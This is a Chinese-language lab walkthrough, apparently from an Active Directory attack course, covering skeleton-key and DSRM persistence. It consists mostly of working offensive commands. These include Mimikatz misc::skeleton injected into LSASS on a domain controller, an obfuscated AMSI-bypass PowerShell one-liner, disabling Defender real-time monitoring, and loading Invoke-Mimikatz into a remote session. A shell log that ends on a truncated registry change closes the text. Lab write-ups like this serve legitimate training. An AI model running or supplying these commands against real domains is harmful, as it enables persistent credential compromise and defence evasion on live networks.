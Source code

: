 mimikatz(powershell) # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK
```

现在所有计算机都可以使用密码：```mimikatz```访问

开一个学生shell使用下面命令以Administrator的身份登录DC
```Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator```



### 方法2(推荐)

进入DC
```
Enter-PSSession –Computername dcorp-dc –credential dcorp\Spiderman
```

在DC中关闭AMSI
```
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
E' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(
'.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') )
,( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

回到学生机器,创建一个DC的登录session
```
$sess = New-PSSession dcorp-dc.dollarcorp.moneycorp.local
```

把mimikatz加载到指定session
```
 Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

再次进入DC
```
 Enter-PSSession -Session $sess
```

执行mimikatz，制作万能钥匙
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```

开一个学生shell使用下面命令以student370的身份进入主机
```Enter-PSSession –Computername dcorp-std370 –credential dcorp\student370```

问题：In which process is the skeleton key injected?
答案：LSASS

# Learning Objective 11:

> Task
> ● Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence.


## DSRM利用

```

[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\